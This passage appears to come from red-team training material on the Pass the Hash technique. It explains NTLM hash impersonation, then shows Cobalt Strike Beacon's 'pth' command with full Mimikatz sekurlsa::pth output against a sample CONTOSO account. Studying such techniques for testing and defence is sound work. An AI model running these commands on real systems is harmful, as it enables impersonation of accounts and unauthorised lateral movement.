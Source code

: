 _Pass the Hash_ (often shortened to PtH) is a technique [T1550.002](https://attack.mitre.org/techniques/T1550/002/) that allows an adversary to leverage an NTLM hash for user impersonation.  There are two flavours of PtH that are often used interchangeably.

The first is implemented in Linux-based tools, like [Impacket](https://github.com/fortra/impacket), which uses raw NTLM authentication for protocols like SMB.  The second is implemented in Windows-based tools, like Mimikatz, which patches the hash directly into the credential cache of a logon session.  Both of these approaches have historically worked well because the adversary isn't required to recover the plaintext credentials through cracking, and NTLM was the default authentication protocol in Windows for a long time.

However, Microsoft are doing their utmost to remove NTLM from Windows altogether.  Kerberos has already replaced NTLM as the default authentication protocol, so seeing NTLM authentication is becoming more and more anomalous; and NTLM authentication may be [restricted](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) in hardened environments.

---

Beacon has a built-in `pth` command - the syntax is simply `pth [DOMAIN\user] [hash]`.  This is a wrapper around `sekurlsa::pth`.  It will echo some random data into a named pipe, which Beacon will then [impersonate](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient) to assume the identity of the passed credentials.

```powershell
beacon> pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:"rsteel" /domain:"CONTOSO" /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:"%COMSPEC% /c echo 8d3f86487c1 > \\.\pipe\f08610" command

user	: rsteel
domain	: CONTOSO
program	: C:\Windows\system32\cmd.exe /c echo 8d3f86487c1 > \\.\pipe\f08610
impers.	: no
NTLM	: fc525c9683e8fe067095ba2ddc971889
  |  PID  2920
  |  TID  3716
  |  LSA Process is now R/W
  |  LUID 0 ; 18729858 (00000000:011dcb82)
  \_ msv1_0   - data copy @ 000001F7FB8EA9D0 : OK !
  \_ kerberos - data copy @ 000001F7FB8FCD28
   \_ des_cbc_md4       -> null             
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F7FB8D77A8 (32) -> null
```